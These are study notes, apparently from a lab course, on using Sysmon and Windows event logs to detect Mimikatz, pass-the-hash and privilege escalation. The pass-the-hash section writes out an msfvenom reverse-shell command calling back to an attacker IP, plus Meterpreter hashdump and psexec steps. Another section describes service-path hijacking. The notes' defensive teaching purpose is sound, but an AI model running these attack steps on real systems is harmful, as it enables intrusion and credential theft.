




# Log Analysis with Sysmon — Summary Notes

## Table of Contents

1. [Introduction & Setup of Sysmon](#1-introduction--setup-of-sysmon)
   - What is Sysmon
   - Setup
   - Configuration
   - Events
   - Hashes
2. [Detecting Mimikatz with Sysmon](#2-detecting-mimikatz-with-sysmon)
   - Monitoring files named Mimikatz
   - Monitoring hash
   - Tracking lsass.exe
   - Questions & methodology
3. [Detecting Pass The Hash with Sysmon](#3-detecting-pass-the-hash-with-sysmon)
   - Example attack walkthrough
   - Detection of the attack
4. [Detecting Privilege Escalation with Sysmon](#4-detecting-privilege-escalation-with-sysmon)
   - Weak service permissions
   - Insecure registry permissions
   - Metasploit getsystem command
   - Questions & methodology
5. [Conclusion](#5-conclusion)

---

## 1. Introduction & Setup of Sysmon

Keeping log records is one of the most essential activities of information systems — logs make it possible to determine when, how, and from where an attack occurred.

### What is Sysmon
**Sysmon (System Monitor)** is a tool developed by Microsoft that records system activity on the machine it is installed on.

### Setup
Download from Microsoft Sysinternals:
```
https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon
```

Install with default settings by navigating to the download directory in `cmd` and running:

```bash
Sysmon.exe -i -accepteula
```

### Configuration
Sysmon installs with a default configuration file, but a custom one can be created. Configuration uses **XML** format and has two main sections:
- **HashAlgorithms** — specifies which hash algorithms to use
- **EventFiltering** — specifies which events to monitor or exclude

`include` statements are used to include events, and `exclude` statements are used to exclude them. Each filtering rule uses a **condition** type (e.g., `is`, `contains`, `begin with`) to match against tag values.

### Events
Sysmon records can be viewed in Event Viewer at:
```
Applications and Services Logs / Microsoft / Windows / Sysmon / Operational
```

Each record includes an **Event ID** identifying the type of activity logged (e.g., Event ID 1 = Process Create, Event ID 3 = Network Connection, Event ID 13 = Registry Value Set).

### Hashes
Most Sysmon records include the hash value of the process involved. If a suspicious record is found, the hash can be looked up on sites like VirusTotal to check for known malware.

---

## 2. Detecting Mimikatz with Sysmon

**Mimikatz** (`https://github.com/gentilkiwi/mimikatz`) is a tool used to extract passwords from memory on Windows systems.

Three detection approaches using Sysmon are covered:

### Monitoring files named "Mimikatz"
Sysmon can be configured to alert when a file named `mimikatz` is created on the system. This is easy to bypass, since the attacker can simply rename the file.

The Sysmon output in this case showed that `mimikatz.exe` was extracted from a compressed archive.

### Monitoring Hash
Sysmon can alert when a process with a hash value matching known Mimikatz binaries is started. In the example, `mimikatz.exe` had the hash:
```
010D11288BAF561F633D674E715A2016
```
This method is also weak, since the hash changes with even a minor modification to the file.

### Tracking "lsass.exe"
Mimikatz relies on `lsass.exe` to capture passwords. Monitoring processes that access `lsass.exe` catches not just Mimikatz but any suspicious process using it. Legitimate processes that call `lsass.exe` can be excluded from alerts to reduce noise and improve detection accuracy.

### Questions & Methodology

**1. What is the username running Mimikatz on the system? (Without computer name)**
Found by opening the Sysmon logs, filtering for **Event ID 1**, and searching for "mimikatz" — the first matching event's details showed the username running Mimikatz.

**2. What is the MD5 value of the mimikatz.exe run?**
Observed directly within the logs, and confirmed independently using PowerShell:

```powershell
Get-FileHash
```

**3. What is the full directory where Mimikatz.exe is located?**
Found the same way, from the logs — the **CurrentDirectory** field showed the full directory path.

**4. What is the Process ID of mimikatz.exe run on "10/4/2022 7:09:46 AM"?**
Also found directly in the log entry matching that timestamp.



---

## 3. Detecting Pass The Hash with Sysmon

**Pass the Hash (PtH)** is an attack against Windows systems where the attacker authenticates using a password **hash** instead of the plaintext password. Password hashes reside in `lsass.exe`, and tools such as Gsecdump, pwdump7, Mimikatz, and Metasploit's `hashdump` module are used to extract them.

### Example Attack Walkthrough

1. **Create a reverse shell payload with msfvenom** and deliver it to the victim (e.g., via email):

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp lhost=192.168.2.120 lport=4343 -b '\x00' -e x86/shikata_ga_nai -f exe -o shell.exe
```

2. Wait for the victim to open the file — a Meterpreter session opens once executed.

3. Attempting `hashdump` immediately fails due to insufficient privileges.

4. **List running processes** to find one running as `NT AUTHORITY\SYSTEM`:

```bash
ps
```

5. **Migrate into that process** to inherit its privileges:

```bash
migrate
```

6. With system-level privileges obtained, **dump password hashes**:

```bash
hashdump
```

7. Load the captured hash into Metasploit's **psexec** module to authenticate as the admin user — completing the pass-the-hash attack without ever knowing the actual password.

### Detection of the Attack

Because Pass the Hash produces normal-looking network behavior, network traffic analysis is unreliable for detection. Reviewing **Event Viewer** logs is more effective.

**Preliminary check:** In Local Group Policy Editor, confirm that **Success** and **Failure** auditing are enabled under "Audit account logon events."

**Indicators to look for when reviewing logon events:**
- **Event ID 4624** — successful logon events
- **Logon Type 3** — network logon (connection from elsewhere on the network)
- **Security ID** — typically shows as **NULL SID** in pass-the-hash attacks
- **Logon Process** — `NtLmSsp`
- **Key Length** — `0` (a normal RDP connection would show a 128-bit key length)
- **Workstation Name** — often a random/nonsensical string, another red flag

In the analyzed case, all of these indicators were present, confirming that the attacker (IP `192.168.2.120`) had infiltrated the system as the `admin` user via pass-the-hash.

Sysmon's **Event ID 1 (Process Create)** logs are especially valuable for tracking the attacker's post-exploitation activity step by step, though reviewing other Sysmon event types alongside it improves overall detection.

---

## 4. Detecting Privilege Escalation with Sysmon

**Privilege escalation** is gaining higher-level access by exploiting errors or misconfigurations on a system.

### 4.1 Weak Service Permissions
Granting users unnecessary service permissions (start/stop/reconfigure) creates a privilege escalation path.

**Example:** A low-privilege user ("Ali") notices the `UPDATE` service and checks its permissions using:

```bash
accesschk
```

This reveals that **everyone** has permission to modify the service. Ali then changes the service's executable path to point to his own malware and starts the service — which runs with **system privileges**, executing the malware as SYSTEM.

**Log Records:**
- **Event ID 13** (Registry value set) shows the service's executable path being changed.
- Reviewing prior log entries shows the sequence: registry modified → service started → malware executed → attacker gains system privileges.
- **Event ID 3** (Network Connection) shows a connection opened to the attacker under `NT AUTHORITY\SYSTEM` privileges.

### 4.2 Insecure Registry Permissions
Registry modification rights should be restricted to authorized users only. In this example, the **"Authenticated Users"** group was given full control over the `UPDATE` service's registry key.

User "Ali" (unprivileged) modifies the service's `ImagePath` value to point to his malware. When the service starts, the attacker gains `NT AUTHORITY\SYSTEM` privileges via his own listener.

**Log Records:** Sysmon logs confirm Ali modified the registry via `cmd`. The change was accepted because "Authenticated Users" had registry write rights, and it's recorded under **Event ID 13** (registry value set).

### 4.3 Metasploit `getsystem` Command
After obtaining a Meterpreter session, privilege escalation is attempted with:

```bash
getsystem
```

**Log Records:** Sysmon shows a service with a randomly generated name being created and revived via `cmd.exe`, resulting in `cmd` running with `NT AUTHORITY\SYSTEM` privileges.

### Questions & Methodology

**What is the name of the service that tries to run Mimikatz.exe?**
Opened Windows Event Viewer and filtered for **Event ID 13** (registry value set), then searched for "mimikatz," which led back to a 2022 event revealing the service that attempted to run Mimikatz.



**Which service's ImagePath value has been replaced with "update.exe"?**
Navigated through the events surrounding the question above and noticed that the `test_service`'s `ImagePath` initially pointed to `sysmeon.exe`, then was changed to `update.exe`.




---

## 5. Conclusion

This material covered how to analyze system activity using Sysmon, and how to detect and investigate several common Windows attack techniques — Mimikatz credential dumping, Pass the Hash, and multiple privilege escalation methods (weak service permissions, insecure registry permissions, and Metasploit's `getsystem`). Across all cases, correlating specific Sysmon Event IDs (1, 3, 13) with Windows Security event logs (e.g., 4624) proved central to reconstructing attacker activity step by step.